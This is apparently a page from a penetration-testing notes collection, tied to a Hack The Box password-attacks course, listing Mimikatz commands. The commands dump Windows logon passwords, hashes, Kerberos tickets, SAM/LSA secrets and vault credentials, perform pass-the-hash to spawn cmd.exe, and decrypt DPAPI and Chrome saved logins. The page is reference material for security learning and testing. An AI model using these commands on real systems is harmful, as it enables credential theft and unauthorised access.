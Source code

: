 # Mimikatz

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

<div class="row row-cols-lg-2"><div>

[mimikatz](https://github.com/gentilkiwi/mimikatz) <small>(18.4k ⭐)</small> is the most popular tool to dump Windows credentials or perform attacks such as [Pass-the-hash/Pass-the-ticket](/cybersecurity/red-team/s4.privesc/index.md#pass-the-xxx).

```shell!
PS> .\mimikatz.exe
mimikatz# privilege::debug
mimikatz# # run commands
mimikatz# exit
```

To dump credentials, hashes, tickets, etc. you can use:

```shell!
mimikatz# sekurlsa::logonPasswords full
mimikatz# sekurlsa::ekeys           # dump rc4+ntlm hashes
mimikatz# sekurlsa::dpapi           # dump DPAPI master key
mimikatz# sekurlsa::tickets /export # dump tickets
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive /security:./security.hive
mimikatz# lsadump::lsa /patch
mimikatz# vault::list # list credential manager vaults
mimikatz# vault::cred # list credentials
```
</div><div>

To perform a pass-the-hash attack using a `rc4` or `NTML` hash:

```shell!
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy /run:cmd.exe
mimikatz# sekurlsa::pth /user:xxx /ntlm:XXX /domain:xxx.yyy /run:cmd.exe
```

We can decrypt secrets encrypted using DPAPI master key using:

```shell!
mimikatz# dpapi::blob /in:"encrypted_file" /unprotect /masterkey:xxx
mimikatz# dpapi::chrome /in:".\Login Data" /unprotect /masterkey:xxx
```

📚 See also: [pypykatz](pypykatz.md) for Linux users.
</div></div>